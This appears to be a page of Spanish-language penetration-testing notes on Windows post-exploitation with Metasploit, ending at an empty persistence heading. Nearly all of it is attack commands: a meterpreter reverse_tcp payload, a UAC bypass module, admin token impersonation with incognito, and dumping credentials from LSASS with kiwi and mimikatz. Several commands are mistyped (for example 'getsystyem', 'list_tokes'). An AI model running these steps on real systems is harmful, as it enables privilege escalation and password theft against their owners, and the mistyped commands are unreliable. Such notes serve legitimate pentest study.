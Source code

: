 ### Escalada Privilegios Windows
##### ByPass UAC

En la ejecución del exploit que vayamos a usar tendremos que poner el payload
`set payload windows/x64/meterpreter/reverse_tcp`

Usaremos el comando `getsystem` para ver si podemos elevar privilegios, si no podemos debemos ejecutar `getprivs` para ver los privilegios actuales

Deberemos usar una shell con el comando `shell`
Para ver los usuarios del sistema usaremos `net users`
Para mostrar que usuarios pertenecen al grupo de Administrators usaremos `net localgroup administrators`

Una vez con toda esta información mandamos la sesión a background y usaremos el modulo
`use exploit/windows/local/bypassuac_injection`
`set payload windows/x64/meterpreter/reverse_tcp`
`set LPORT 4433`
`set TARGET Windows\ x64`

Una vez obtenida la sesion de meterpreter usaremos el comando `getsystyem` para elevar privilegios


##### Token Impersonation With Incognito

En la ejecución del exploit que vayamos a usar tendremos que poner el payload
`set payload windows/x64/meterpreter/reverse_tcp`

Una vez tenemos la sesión de meterpreter ejecutamos el comando `getprivs` y vemos que podemos realizar la suplantación de identidad `SeImpersonatePrivilege` 
Para la escalada ejecutamos `load incognito`
Ejecutamos `list_tokes -u` para listar los tokens
Vemos que esta el token del administrador y para hacernos pasar por el deberemos impersonar su token para ello ejecutamos
`impersonate_token "<Nombre_token>"`
Migramos al proceso de explores.exe usando el comando `ps` y luego `migrate <num>` y ya obtendremos la escalada de privilegios como Administrador.


### Volcado de hashes con Mimikatz

Una vez dentro de la sesión de meterpreter deberemos hacer un `getuid` para ver que usuarios somos y que privilegios tenemos
Una vez listo migraremos si es posible a `LSASS` para buscar el proceso usamos `pgrep lsass` y una vez tengamos el código `migrate <num>` 
Deberemos de cargar kiwi con `load kiwi`
Para hacer un volcado de todas las credenciales usaremos `creds_all`, también lo podemos hacer con `lsa_dump_sam` y `las_dump_secrets` para volcar las secretas
Cargamos mimikatz con
`upload /usr/share/windows-resources/mimikatz/x64/mimikatz.exe`
Cargamos una shell con el comando `shell` y ejecutamos mimikatz con `./mimikatz.exe`
Usaremos el comando `sekurlsa::logonpasswords` nos mostrara las contraseñas


### PERSISTENCIA WINDOWS
